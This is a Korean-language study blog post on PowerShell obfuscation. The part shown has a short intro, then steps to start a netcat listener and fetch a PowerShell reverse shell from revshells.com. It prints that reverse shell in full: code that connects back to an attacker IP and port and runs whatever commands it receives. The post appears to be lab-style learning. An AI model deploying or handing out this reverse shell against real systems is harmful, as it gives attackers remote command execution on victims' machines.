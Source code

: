 ```yaml
---
title: '[Study] PowerShell Obfuscation'
date: 2025-09-02 00:00:00
categories: [Study, Windows]
tags: []
published: True
---
```


# #Intro

공부를 하며 Linux 계열의 셸만을 주로 다루다보니 정작 윈도우의 셸인 PowerShell에 대해서는 잘 알지 못했고, PowerShell로 명령을 수행하는 것이 익숙하지 않아 매번 CLI 작업이 필요할 때에는 WSL2의 윈도우 마운트 드라이브로 넘어와 작업을 하곤 했다. 이번 기회를 통해 PowerShell을 맛보고, PowerShell의 난독화 기법에 대해 공부하며 Python 언어로 난독화 스크립트를 작성해보았다.

<br>

<br>

# #Reverse Shell in PowerShell

![image](/assets/posts/250902-2.png){: width="300" }

우선, 공격자 머신에서 nc 명령어로 리스닝을 수행하였다.

<br>

[https://www.revshells.com](https://www.revshells.com)

그 다음, 위의 사이트를 통해 공격자 머신의 IP 주소와 Port 번호를 값으로 하는 PowerShell의 리버스 셸 코드를 얻을 수 있었다.

```powershell
$LHOST = '192.168.195.20';
$LPORT = 4444;
$TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT);
$NetworkStream = $TCPClient.GetStream();
$StreamReader = New-Object IO.StreamReader($NetworkStream);
$StreamWriter = New-Object IO.StreamWriter($NetworkStream);
$StreamWriter.AutoFlush = $true;
$Buffer = New-Object System.Byte[] 1024;
while ($TCPClient.Connected) {
    while ($NetworkStream.DataAvailable) {
        $RawData = $NetworkStream.Read($Buffer, 0, $Buffer.Length);
        $Code = ([text.encoding]::UTF8).GetString($Buffer, 0, $RawData -1)
    };

    if ($TCPClient.Connected -and $Code.Length -gt 1) {
        $Output = try { Invoke-Expression ($Code) 2>&1 } catch { $_ };
        $StreamWriter.Write("$Output`n");
        $Code = $null
    }
};
$TCPClient.Close();
$NetworkStream.Close();
$StreamReader.Close();
```
